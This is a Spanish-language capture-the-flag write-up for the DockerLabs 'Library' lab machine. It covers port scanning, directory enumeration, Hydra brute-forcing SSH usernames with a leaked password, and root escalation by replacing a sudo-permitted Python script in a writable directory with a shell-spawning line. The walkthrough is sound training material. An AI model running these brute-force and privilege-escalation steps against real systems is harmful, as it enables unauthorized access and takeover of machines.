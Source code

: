 ```yaml
---
title: DockerLabs - Library
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, ]
media_subpath: "/assets/img/posts/dockerlabs_library"
image:
  path: main.webp
published: false
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:03 GMT
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 9.78s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ nmap -sCV -p80,22 172.17.0.2                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:07 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000074s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
```

## análisis

Comenzamos recuperando recursos de la pagina web:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/index.php            (Status: 200) [Size: 26]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
```

Encontramos que aparte del `index.html`, también esta el `index.php`, el cual contiene una serie de caracteres:

![Desktop View](/20251027011949.webp){: width="972" height="589" .shadow}

## explotación

Probamos a ver si se trata de una contraseña para algún usuario del sistema por SSH:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ hydra -L /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -p JIF************* ssh://172.17.0.2 -t 64 -I 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-27 00:15:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 1000000 login tries (l:1000000/p:1), ~15625 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: c*****   password: JIF*************
```

Usando las credenciales, accedemos a la maquina por SSH:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ ssh c*****@172.17.0.2
c*****@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.16.8+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
c*****@5b1158daff63:~$ whoami
c*****
```

## escalada de privilegios

Al ir a revisar los permisos SUDO, comprobamos que puede ejecutar un cierto script con Python:

```bash
c*****@5b1158daff63:~$ sudo -l
Matching Defaults entries for c***** on 5b1158daff63:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User c***** may run the following commands on 5b1158daff63:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) encontramos una forma de obtener una consola como `root` si modificamos el contenido del script:

![Desktop View](/20251027012453.webp){: width="972" height="589" .shadow}

El contenido del script es el siguiente:

```bash
c*****@5b1158daff63:~$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

Por desgracia, los permisos nos impiden modificarlo:

```bash
c*****@5b1158daff63:~$ ls -la /opt/script.py
-r-xr--r-- 1 c***** root 272 May  7  2024 /opt/script.py
```

Sin embargo, el permiso de ejecución sobre un fichero permite no solo la ejecución, sino también el borrado del mismo:

```
c*****@5b1158daff63:~$ rm /opt/script.py
rm: remove write-protected regular file '/opt/script.py'? y
c*****@5b1158daff63:~$ cat /opt/script.py
cat: /opt/script.py: No such file or directory
```

Dado que el permiso apunta a un directorio en el cual tenemos permisos para poder crear fichero, podemos crear uno que se llame igual que el anterior, pero con el contenido que le indiquemos:

```bash
c*****@5b1158daff63:/opt$ touch /opt/script.py
c*****@5b1158daff63:/opt$ ls -la
total 8
drwxr-xr-x 1 c***** root   4096 Oct 27 00:26 .
drwxr-xr-x 1 root   root   4096 Oct 27 00:02 ..
-rw-rw-r-- 1 c***** c*****    0 Oct 27 00:26 script.py
```

Editamos el fichero con la instrucción que indicaban que podemos usar para obtener una consola:

```bash
c*****@5b1158daff63:/opt$ cat script.py 
import os; os.system("/bin/sh")
```

Ahora, ejecutamos el script, y vemos que obtenemos correctamente la consola como el usuario `root`:

```bash
c*****@5b1158daff63:/opt$ sudo /usr/bin/python3 /opt/script.py
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>